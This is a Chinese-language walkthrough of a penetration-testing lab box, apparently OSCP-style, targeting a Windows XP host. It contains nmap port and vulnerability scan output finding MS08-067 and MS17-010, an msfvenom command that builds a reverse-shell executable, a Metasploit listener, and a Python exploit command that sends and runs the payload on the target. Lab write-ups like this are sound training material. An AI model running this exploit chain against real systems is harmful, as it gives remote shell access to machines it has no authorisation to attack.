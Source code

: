 - ![image-20210710213422936](http://cdn.mxrblog.cn/image-20210710213422936.png)
- 端口扫描

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV 10.11.1.5 --top-ports 10 -A                                                                                                                          1 ⨯
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-10 01:39 EDT
Nmap scan report for 10.11.1.5
Host is up (0.25s latency).

PORT     STATE  SERVICE       VERSION
21/tcp   closed ftp
22/tcp   closed ssh
23/tcp   closed telnet
25/tcp   closed smtp
80/tcp   closed http
110/tcp  closed pop3
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
443/tcp  closed https
445/tcp  open   microsoft-ds  Microsoft Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=7/10%OT=139%CT=21%CU=34455%PV=Y%DS=2%DC=T%G=Y%TM=60E93
OS:2B3%P=x86_64-pc-linux-gnu)SEQ(SP=85%GCD=1%ISR=9C%TI=I%II=I%SS=S%TS=0)OPS
OS:(O1=M54DNW0NNT00NNS%O2=M54DNW0NNT00NNS%O3=M54DNW0NNT00%O4=M54DNW0NNT00NN
OS:S%O5=M54DNW0NNT00NNS%O6=M54DNNT00NNS)WIN(W1=FAF0%W2=FAF0%W3=FAF0%W4=FAF0
OS:%W5=FAF0%W6=FAF0)ECN(R=Y%DF=Y%T=80%W=FAF0%O=M54DNW0NNS%CC=N%Q=)T1(R=Y%DF
OS:=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=N%T=80%W=0%
OS:S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=80%IPL=38%UN=0%RIPL
OS:=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=S%T=80%CD=Z)

Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_nbstat: NetBIOS name: ALICE, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:bf:43:bb (VMware)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   252.12 ms 192.168.119.1
2   252.39 ms 10.11.1.5

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.44 seconds

```



- 漏洞扫描

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap  10.11.1.5 --script vuln                                                                                                                                 1 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-10 02:16 EDT
Nmap scan report for 10.11.1.5
Host is up (0.25s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
1025/tcp open  NFS-or-IIS

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Nmap done: 1 IP address (1 host up) scanned in 80.87 seconds
```

- 查找漏洞ms08-067

![image-20210710155841195](http://cdn.mxrblog.cn/image-20210710155841195.png)

![image-20210710155854455](http://cdn.mxrblog.cn/image-20210710155854455.png)

- 查找漏洞ms17-010

![image-20210710161114009](http://cdn.mxrblog.cn/image-20210710161114009.png)

- 使用漏洞ms7-010,但是发现无法通过msf对ms17-010进行漏洞利用

![image-20210722041024649](http://cdn.mxrblog.cn/image-20210722041024649.png)

- 同样的也无法通过msf对ms08-067进行漏洞利用
- 既然存在漏洞,可以使用网上的脚本文件对漏洞进行利用,我使用的是ms17-010的Python脚本,原理是通过发送exe文件到靶机上,然后在攻击机器上打开监听端口获取shell
- 使用的脚本我已经fork到自己的github仓库中,[下载链接](https://github.com/mxrmiss/MS17-010)  ,需要下载mysmb.py, send_and_execute.py, 需要使用python2, 使用pip2安装impacket模块

![image-20210722042343394](http://cdn.mxrblog.cn/image-20210722042343394.png)



```
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 EXITFUNC=thread -f exe -a x86 --platform windows -o msf17-010.exe

```

![image-20210722043820126](http://cdn.mxrblog.cn/image-20210722043820126.png)

- 使用 exploit/multi/handler 模块,加载反向shell注意要与前面生成exe文件的反向shell一致,否则监听不到信息

![image-20210722044132037](http://cdn.mxrblog.cn/image-20210722044132037.png)

- 执行send_and_execute.py脚本

```
python send_and_execute.py 10.11.1.5 msf17-010.exe
```

- 监听

![image-20210722044740040](http://cdn.mxrblog.cn/image-20210722044740040.png)

- 寻找proof.txt, 注意在C:\下查找

![image-20210722045721681](http://cdn.mxrblog.cn/image-20210722045721681.png)

![image-20210722045833818](http://cdn.mxrblog.cn/image-20210722045833818.png)

